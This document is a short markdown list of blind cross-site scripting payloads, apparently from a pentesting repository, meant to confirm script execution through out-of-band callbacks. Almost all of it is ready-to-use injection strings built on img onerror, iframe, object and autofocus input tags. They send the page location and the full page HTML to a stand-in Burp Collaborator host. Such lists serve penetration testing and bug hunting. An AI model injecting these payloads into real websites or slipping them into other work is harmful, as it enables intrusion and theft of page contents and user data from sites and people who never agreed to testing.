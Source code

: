 Blind XSS Payloads
==================

The following list includes some blind XSS payloads that can be used to proof evaluation of JavaScript using out-of-band communication.


## Image only: HTML Injection without JavaScript
```html
'"><img src="https://example.burpcollaborator.net/image">
```

## Image-Tag XSS Payloads
```html
'"><img src="https://example.burpcollaborator.net/image-only" onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://"+btoa(document.location)+".example.burpcollaborator.net/image-dns?"'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='fetch("https://example.burpcollaborator.net/image-xss-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})'>
```

## iFrame XSS Payloads
```html
'"><iframe src='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></iframe>

'"><iframe srcdoc='<script>window.location="https://example.burpcollaborator.net/iframe-srcdoc?"+btoa(parent.document.location)</script>'></iframe>

'"><iframe srcdoc='<script>fetch("https://example.burpcollaborator.net/iframe-srcdoc-post",{method:"POST",body:btoa(parent.document.body.innerHTML),mode:"no-cors"})</script>'></iframe>
```

## Object XSS Payloads
```html
'"><object data='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></object>
```

## Input field
```html
<input onfocus='fetch("https://example.burpcollaborator.net/imput-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})' autofocus>
```
